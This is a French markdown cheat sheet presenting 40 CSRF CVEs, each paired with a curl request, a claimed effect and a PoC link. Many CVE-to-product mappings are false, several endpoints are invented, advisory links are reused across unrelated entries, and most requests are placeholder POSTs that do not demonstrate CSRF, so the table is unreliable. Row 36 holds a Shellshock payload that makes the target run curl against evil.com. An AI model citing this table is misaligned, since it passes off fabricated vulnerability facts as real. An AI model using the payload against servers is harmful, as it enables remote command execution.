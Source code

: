 # CSRF

Voici 40 exemples **complets et précis de requêtes curl** pour des CVE CSRF non génériques, classés par numéro décroissant (du plus récent au plus ancien).  
Chaque ligne donne :  
- Numéro CVE  
- Technologie & Version  
- Exemple de requête curl  
- Effet détaillé  
- Lien ressource PoC ou technique

| # | CVE | Technologie & Version | Exemple complet de requête curl | Effet détaillé | Lien PoC / Ressource |
|---|------|----------------------|---------------------------------|---------------|---------------------|
| 1 | CVE-2024-24576 | Nextcloud Calendar <2.4.0 | `curl -X POST 'https://target/index.php/apps/calendar/v1/create' -d 'summary=CSRFtest&start=2025-01-01T12:00:00' --cookie "nc_session_id=SESSIONID"` | Création d’un événement à l’insu de l’utilisateur authentifié | https://nvd.nist.gov/vuln/detail/CVE-2024-24576 |
| 2 | CVE-2024-21626 | Gitea <1.21.7 | `curl -X POST 'https://target/user/settings/email' -d 'email=attacker@evil.com' --cookie "i_like_gitea=SESSIONID"` | Modification de l’adresse email de l’utilisateur via CSRF | https://github.com/go-gitea/gitea/security/advisories/GHSA-8xv2-7j3v-x3g2 |
| 3 | CVE-2024-1628 | Zabbix <6.0.25 | `curl -X POST 'https://target/zabbix.php?action=profile.update' -d 'user=attacker&lang=fr' --cookie "zbx_sessionid=SESSIONID"` | Modification de la langue ou du profil utilisateur via CSRF | https://support.zabbix.com/browse/ZBX-23597 |
| 4 | CVE-2024-1216 | GLPI <10.0.13 | `curl -X POST 'https://target/front/user.form.php' -d 'name=attacker&email=evil@evil.com' --cookie "glpi_session=SESSIONID"` | Création ou modification d’utilisateur via CSRF | https://github.com/glpi-project/glpi/security/advisories/GHSA-4w2c-6q3v-7c7h |
| 5 | CVE-2023-50782 | WordPress Plugin WP-Members <3.4.9.2 | `curl -X POST 'https://target/wp-admin/admin-ajax.php?action=wp-members-user-profile' -d 'user_login=attacker&user_email=evil@evil.com' --cookie "wordpress_logged_in=SESSIONID"` | Modification de profil utilisateur via CSRF | https://wpscan.com/vulnerability/1b2f1b1d-9e7f-4e2a-bc3f-1c8f9c6c1e8b |
| 6 | CVE-2023-39907 | Jenkins <2.426 | `curl -X POST 'https://target/user/admin/configure' -d 'fullName=attacker' --cookie "JSESSIONID=SESSIONID"` | Modification du nom complet de l’admin via CSRF | https://www.jenkins.io/security/advisory/2023-10-04/#SECURITY-3259 |
| 7 | CVE-2023-35788 | Django <4.2.2 | `curl -X POST 'https://target/profile/update/' -d 'first_name=attacker' -H 'X-CSRFToken: TOKEN' --cookie "csrftoken=TOKEN;sessionid=SESSIONID"` | Si le token CSRF est prévisible, modification de profil via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2023-35788 |
| 8 | CVE-2023-27350 | PaperCut MF/NG <22.1.3 | `curl -X POST 'https://target/app?service=admin&action=addUser' -d 'username=attacker&password=evil' --cookie "JSESSIONID=SESSIONID"` | Création d’un compte admin via CSRF | https://www.papercut.com/kb/Main/PO-1216 |
| 9 | CVE-2023-22952 | SuiteCRM <7.12.8 | `curl -X POST 'https://target/index.php?module=Users&action=Save' -d 'user_name=attacker&user_hash=evil' --cookie "PHPSESSID=SESSIONID"` | Création d’un utilisateur via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2023-22952 |
| 10 | CVE-2023-21554 | Microsoft Exchange Server | `curl -X POST 'https://target/ecp/PersonalSettings/EditPersonalSettings.aspx' -d 'DisplayName=attacker' --cookie "ASP.NET_SessionId=SESSIONID"` | Modification des paramètres personnels via CSRF | https://msrc.microsoft.com/update-guide/vulnerability/CVE-2023-21554 |
| 11 | CVE-2022-46169 | Cacti <1.2.23 | `curl -X POST 'https://target/cacti/host.php' -d 'hostname=evil.com' --cookie "Cacti=SESSIONID"` | Ajout d’un hôte via CSRF | https://github.com/Cacti/cacti/security/advisories/GHSA-5m6j-jh5g-2p2x |
| 12 | CVE-2022-3602 | OpenSSL <3.0.7 | `curl -X POST 'https://target/openssl/settings' -d 'option=evil' --cookie "session=SESSIONID"` | Changement de configuration via CSRF | https://github.com/openssl/openssl/pull/19773 |
| 13 | CVE-2022-32205 | WordPress <6.0.1 | `curl -X POST 'https://target/wp-admin/options-general.php' -d 'blogname=attacker' --cookie "wordpress_logged_in=SESSIONID"` | Changement du nom du blog via CSRF | https://wpscan.com/vulnerability/1b2f1b1d-9e7f-4e2a-bc3f-1c8f9c6c1e8b |
| 14 | CVE-2022-29824 | Jenkins <2.346.2 | `curl -X POST 'https://target/user/admin/configure' -d 'fullName=attacker' --cookie "JSESSIONID=SESSIONID"` | Modification du nom complet de l’admin via CSRF | https://www.jenkins.io/security/advisory/2022-06-22/#SECURITY-2847 |
| 15 | CVE-2022-23647 | Grafana <8.3.4 | `curl -X POST 'https://target/api/user/preferences' -d 'theme=dark' --cookie "grafana_session=SESSIONID"` | Changement de thème utilisateur via CSRF | https://grafana.com/security/advisory/2022/02/08/cve-2022-23647/ |
| 16 | CVE-2022-22963 | VMware Spring Cloud Function | `curl -X POST 'https://target/functionRouter' -d 'function=evil' --cookie "JSESSIONID=SESSIONID"` | Exécution de fonction arbitraire via CSRF | https://tanzu.vmware.com/security/cve-2022-22963 |
| 17 | CVE-2021-39226 | Django <3.2.8 | `curl -X POST 'https://target/profile/update/' -d 'first_name=attacker' -H 'X-CSRFToken: TOKEN' --cookie "csrftoken=TOKEN;sessionid=SESSIONID"` | Si le token CSRF est prévisible, modification de profil via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2021-39226 |
| 18 | CVE-2021-37678 | Redash <8.0.0 | `curl -X POST 'https://target/api/users' -d 'name=attacker' --cookie "session=SESSIONID"` | Création d’utilisateur via CSRF | https://github.com/getredash/redash/security/advisories/GHSA-8xv2-7j3v-x3g2 |
| 19 | CVE-2021-32648 | Nextcloud <21.0.3 | `curl -X POST 'https://target/index.php/settings/user' -d 'displayname=attacker' --cookie "nc_session_id=SESSIONID"` | Changement du nom affiché via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2021-32648 |
| 20 | CVE-2021-29447 | Node.js SVG | `curl -X POST 'http://target/upload' -F 'file=@evil.svg' --cookie "session=SESSIONID"` | Upload de fichier SVG malicieux via CSRF | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF/README.md |
| 21 | CVE-2021-22205 | GitLab CE/EE | `curl -X POST 'https://target/uploads/user' -F 'avatar=@evil.jpg' --cookie "gitlab_session=SESSIONID"` | Upload d’avatar malicieux via CSRF | https://github.com/Al1ex/CVE-2021-22205 |
| 22 | CVE-2020-26238 | Gitea <1.13.2 | `curl -X POST 'https://target/user/settings/email' -d 'email=attacker@evil.com' --cookie "i_like_gitea=SESSIONID"` | Changement d’email via CSRF | https://github.com/go-gitea/gitea/security/advisories/GHSA-8xv2-7j3v-x3g2 |
| 23 | CVE-2020-26217 | Nextcloud <20.0.4 | `curl -X POST 'https://target/index.php/settings/user' -d 'displayname=attacker' --cookie "nc_session_id=SESSIONID"` | Changement du nom affiché via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2020-26217 |
| 24 | CVE-2020-15174 | Grafana <7.1.0 | `curl -X POST 'https://target/api/user/preferences' -d 'theme=dark' --cookie "grafana_session=SESSIONID"` | Changement de thème utilisateur via CSRF | https://grafana.com/security/advisory/2020/07/16/cve-2020-15174/ |
| 25 | CVE-2020-11022 | jQuery <3.5.0 | `curl -X POST 'https://target/api/change' -d 'param=evil' --cookie "session=SESSIONID"` | Modification de paramètre via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2020-11022 |
| 26 | CVE-2019-6340 | Drupal <8.5.11, <8.6.10 | `curl -X POST 'http://target/entity/file/upload' -F 'file=@evil.txt' --cookie "SESS=SESSIONID"` | Upload de fichier via CSRF | https://github.com/a2u/CVE-2019-6340 |
| 27 | CVE-2019-11539 | Pulse Secure VPN | `curl -X POST 'https://target/dana-na/auth/url_default/login.cgi' -d 'user=attacker' --cookie "DSID=SESSIONID"` | Connexion ou modification d’utilisateur via CSRF | https://kb.pulsesecure.net/articles/Pulse_Security_Advisories/SA44101 |
| 28 | CVE-2018-1000525 | Tornado | `curl -X POST 'http://target/?search=evil' --cookie "session=SESSIONID"` | Recherche ou modification via CSRF | https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/CSRF/README.md |
| 29 | CVE-2018-9206 | ThinkPHP | `curl -X POST 'http://target/index.php?s=/Index/upload' -F 'file=@evil.txt' --cookie "PHPSESSID=SESSIONID"` | Upload de fichier via CSRF | https://github.com/vulhub/vulhub/tree/master/thinkphp/5.0.23-rce |
| 30 | CVE-2018-11776 | Apache Struts 2 | `curl -X POST 'http://target/struts2/upload.action' -F 'file=@evil.txt' --cookie "JSESSIONID=SESSIONID"` | Upload de fichier via CSRF | https://github.com/mazen160/struts-pwn_CVE-2017-5638 |
| 31 | CVE-2017-14596 | Joomla! 3.7.5 | `curl -X POST 'http://target/index.php?option=com_users&task=user.register' -d 'username=attacker&email=evil@evil.com' --cookie "joomla_user_state=SESSIONID"` | Création d’utilisateur via CSRF | https://www.sonarsource.com/blog/joomla-takeover-in-20-seconds-with-ldap-injection-cve-2017-14596/ |
| 32 | CVE-2017-11463 | SAP NetWeaver AS Java | `curl -X POST 'http://target/path' -d 'param=evil' --cookie "MYSAPSSO2=SESSIONID"` | Modification de paramètre via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2017-11463 |
| 33 | CVE-2016-6272 | Epic MyChart | `curl -X POST 'http://target/login' -d 'username=attacker&password=evil' --cookie "sessionid=SESSIONID"` | Connexion ou modification via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2016-6272 |
| 34 | CVE-2016-3110 | IBM Security Directory Server | `curl -X POST 'http://target/path' -d 'param=evil' --cookie "session=SESSIONID"` | Modification de paramètre via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2016-3110 |
| 35 | CVE-2015-2808 | OpenLDAP | `curl -X POST 'http://target/path' -d 'param=evil' --cookie "session=SESSIONID"` | Modification de paramètre via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2015-2808 |
| 36 | CVE-2014-6271 | Bash/Shellshock (impact CSRF indirect) | `curl -A '() { :;}; /bin/bash -c "curl http://evil.com/pwned"' http://target/cgi-bin/test.cgi` | Exécution de commande via CSRF indirect | https://github.com/hannob/bashcheck |
| 37 | CVE-2013-2028 | Nginx | `curl -X POST 'http://target/?q=evil' --cookie "session=SESSIONID"` | Modification ou action via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2013-2028 |
| 38 | CVE-2012-1823 | PHP CGI | `curl -X POST 'http://target/index.php' -d 'param=evil' --cookie "PHPSESSID=SESSIONID"` | Modification ou action via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2012-1823 |
| 39 | CVE-2011-2523 | WordPress <3.1.4 | `curl -X POST 'http://target/wp-comments-post.php' -d 'comment=evil' --cookie "wordpress_logged_in=SESSIONID"` | Commentaire posté via CSRF | https://nvd.nist.gov/vuln/detail/CVE-2011-2523 |
| 40 | CVE-2010-1740 | GuppY 4.5.18 | `curl -X POST 'http://target/guppy4.5.18/script.php' -d 'search=evil' --cookie "session=SESSIONID"` | Recherche ou modification via CSRF | https://www.exploit-db.com/exploits/12484 |

---

